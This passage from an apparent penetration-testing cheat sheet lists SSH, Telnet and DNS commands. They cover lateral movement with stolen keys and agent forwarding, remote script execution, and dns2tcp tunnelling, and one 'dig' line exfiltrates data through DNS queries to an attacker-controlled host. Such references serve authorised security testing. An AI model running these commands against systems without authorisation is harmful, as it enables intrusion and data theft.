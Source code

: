 - **Execute GUI Applications Remotely:**
	```bash
	ssh -X <username>@<target_ip> xclock
	```
- **Check for Trust Relationships in `.ssh/authorized_keys`:**
	```bash
	cat ~/.ssh/authorized_keys
	```
- **Move Laterally Using SSH Trust Relationships:**
	```bash
	ssh -i ~/.ssh/id_rsa <username>@<target_ip>
	```
- **List SSH Agent Forwarding Sockets:**
	```bash
	env | grep SSH_AUTH_SOCK
	```
- **Use SSH Agent Forwarding to Access Other Hosts:**
	```bash
	ssh -A <username>@<target_ip>
	```
- **Execute Commands Remotely via SSH:**
	```bash
	ssh <username>@<target_ip> 'command_to_run'
	```
- **Run a Script on a Remote Host:**
	```bash
	ssh <username>@<target_ip> 'bash -s' < local_script.sh
	```
- **Transfer Files to a Remote Host Using `scp`:**
	```bash
	scp /path/to/local_file <username>@<target_ip>:/path/to/remote_directory
	```
- **Retrieve Files from a Remote Host Using `scp`:**
	```bash
	scp <username>@<target_ip>:/path/to/remote_file /path/to/local_directory
	```

#### Telnet
- **Telnet Connection:**
	```bash
	telnet <target_ip> <target_port>
	```

#### DNS
- **Using `dns2tcp` Server (attacker):**
	```bash
	dns2tcpd -F /etc/dns2tcpd.conf
	```
- **Using `dns2tcp` Client (target):**
	```bash
	dns2tcpc -r <file> -z <attack_ip>
	```
- **DNS Queries with `dig`:**
	```bash
	dig @<dns_server> <data_to_exfil>.domain.com
	```
